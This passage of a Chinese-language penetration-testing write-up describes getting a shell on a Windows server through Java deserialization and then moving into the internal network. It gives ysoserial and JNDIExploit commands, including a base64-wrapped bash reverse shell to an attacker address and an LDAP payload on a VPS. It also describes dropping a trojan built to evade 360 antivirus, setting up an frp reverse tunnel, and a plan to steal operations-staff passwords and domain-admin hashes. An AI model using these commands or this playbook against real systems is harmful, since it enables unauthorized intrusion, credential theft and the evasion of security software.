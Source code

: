 ![](https://gitee.com/fuli009/images/raw/master/public/20220926092056.png)  

dnslog有回显，接下来就是拿shell了，这里由于固定思维，之前遇到的都是linux系统，先入为主觉得是Linux，结果没利用成功，一开始以为是防火墙拦截，后面探测了一下目录结构，发现是windows，所以这里payload要改变一下

  

这里可以通过网站快速生成payload  
https://x.hacking8.com/java-runtime.html

  *   *   *   *   *   *   *   *   * 

    
    
    Linux：java -cp ysoserial-0.0.8-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 88 CommonsBeanutils1 "bash -c {echo,字段}|{base64,-d}|{bash,-i}"  字段=bash -i >& /dev/tcp/x.x.x.x/8888 0>&1 base64后的值  nc -lvp 端口  
    Windows：java -jar JNDIExploit-1.0-SNAPSHOT.jar -i VPS地址  java -cp ysoserial-0.0.6-SNAPSHOT-1.8.3.jar ysoserial.exploit.JRMPListener 88 CommonsBeanutils2 "ldap://VPS地址:1389/Basic/Command/Base64/d2hvYW1p"  d2hvYW1p为命令的base64，这里是执行命令whoami

![](https://gitee.com/fuli009/images/raw/master/public/20220926092057.png)  

 **0x02 内网渗透**

 **杀软识别**  

拿到一台机器后，一般先看一下安装了什么安全防护产品

  * 

    
    
    tasklist /svc

![](https://gitee.com/fuli009/images/raw/master/public/20220926092059.png)

  

探测了一下发现安装了360，把之前准备好的bypass360马子扔上去，成功上线![](https://gitee.com/fuli009/images/raw/master/public/20220926092101.png)  

##

##  **隧道搭建**

ping了一下发现机器出网，可以上frp搭建反向代理隧道

![](https://gitee.com/fuli009/images/raw/master/public/20220926092102.png)

  

proxifier配置相应的端口账密便可以进入内网![](https://gitee.com/fuli009/images/raw/master/public/20220926092103.png)

  

 **横向思路**

  *   *   * 

    
    
     1、优先拿运维机器，一般存放着大量的账号密码信息2、其次是集权设备，Vcenter、堡垒机、天擎这些，有day上day，没day寻找其他方法3、有域的情况下，争取拿到域管hash，或者通过已知漏洞拿下域控

